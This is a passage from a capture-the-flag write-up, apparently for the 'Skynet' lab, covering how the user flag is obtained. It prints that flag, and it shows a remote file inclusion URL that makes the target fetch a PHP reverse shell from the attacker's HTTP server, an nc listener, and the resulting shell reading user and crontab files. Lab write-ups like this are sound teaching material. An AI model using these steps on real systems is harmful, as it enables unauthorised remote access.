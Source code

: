 <br>

> 1.4. <em>What is the user flag?</em><br><a id='1.4'></a>
>> <code><strong>7ce5c2109a40f958099283600a9ae807</strong></code>

<br>


<pre><code>root@[Attack_Box]/skynet:~# locate php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/wordlists/SecLists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
root@[Attack_Box]/skynet:~# nano /usr/share/webshells/php/php-reverse-shell.php
</code></pre>

<br>

<pre><code>root@[Attack_Box]/skynet:~# nc -lvnp  444
</code></pre>

<br>

<pre><code>root@[Attack_Box]/skynet:~# sudo python3 -m http.server
</code></pre>

<br>
<p><code>http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://[AttackBox]:8000/php-rever-shell.php</code></p>
![image](https://github.com/user-attachments/assets/a1c45ab9-eb61-468f-a4cc-251828e950cd)

<br>


<pre><code>root@[Attack_Box]/skynet:~# nc -lvnp 444
Listening on [0.0.0.0] (family 0, port 444)
Connection from [Target] 34492 received!
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:50:46 up  2:28,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ hostname && whoami
skynet
www-data
$ pwd
/
$ cd /home
$ ls
milesdyson
$ cd milesdyson
$ ls
backups
mail
share
user.txt
$ cat user.txt
7ce5c2109a40f958099283600a9ae807
$ $ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file